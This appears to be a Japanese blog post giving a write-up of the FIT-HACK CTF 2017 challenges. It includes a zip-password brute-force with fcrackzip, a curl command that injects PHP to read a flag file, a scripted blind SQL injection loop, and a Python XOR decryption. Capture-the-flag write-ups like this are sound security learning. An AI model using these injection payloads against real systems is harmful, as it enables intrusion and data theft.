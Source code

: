 ```yaml
---
layout: post
redirect_from:
  - /blog/2017/04/22/fit-hack-ctf-2017/
date: "2017-04-22T01:04:40+09:00"
tags: [ "ctf", "writeup", "fit-hack-ctf", "guessing" ]
"target_url": [ "https://ctftime.org/event/451" ]
---
```


# FIT-HACK CTF 2017

cryptoはかなりのguessing CTFだった。

-   前処理: <https://twitter.com/elliptic_shiho/status/852779435983986691>
-   it's\_solvable: <https://rawsec.ml/en/FIT-HACK-2017-write-ups/#100-it-s-solvable-crypto>
-   bignumber: <https://twitter.com/_n_ari/status/852777396302299136>

## flag

```
$ fcrackzip -u -l 0-4 flag.zip


PASSWORD FOUND!!!!: pw == 1864
fcrackzip -u -l 0-4 flag.zip  5.96s user 5.98s system 6% cpu 3:14.71 total
```

## Sorry

HTMLとしてinjectionできるなあと思っていたらphpとしてinjectionできていた。

``` sh
$ curl https://sorry.problem.ctf.nw.fit.ac.jp/in.php -F etc=$' <?php\necho `cat /var/tmp/flag`;\n?>'
FIT{fdsa__dasdas_32fa}
FIT{fdsa__dasdas_32fa} <?php
echo `cat /var/tmp/flag`;
?>:mail@example.com <br>Saved it thank you!!



```

## Let's login

SQLi

```
$ s=9n89_ ; while true ; do for c in `seq 0 9` `alpha` _ ; do echo $s$c ; if curl -s https://login.problem.ctf.nw.fit.ac.jp/login.php -F name=name -F pass="' union select name, pass from user where pass like 'FIT{$s$c%' -- " | grep mes1 ; then s=$s$c ; break ; fi ; done ; done
```

`FIT{9n89_y0u3u_9a811}`

## simple cipher

普通に逆関数を書くだけ

``` python
#!/usr/bin/env python3
import binascii
enc_mes = '0c157e2b7f7b515e075b391f143200080a00050316322b272e0d525017562e73183e3a0d564f6718'
key = 'J2msBeG8'

m = list(binascii.unhexlify(enc_mes))

mes = [ None ] * len(m)
j = 0
for a in range(len(key)):
    i = a
    for b in range(len(m) // len(key)):
        mes[i] = chr(m[j] ^ ord(key[a]))
        j += 1
        i += len(key)
mes = ''.join(mes).rstrip()

print(mes)
```
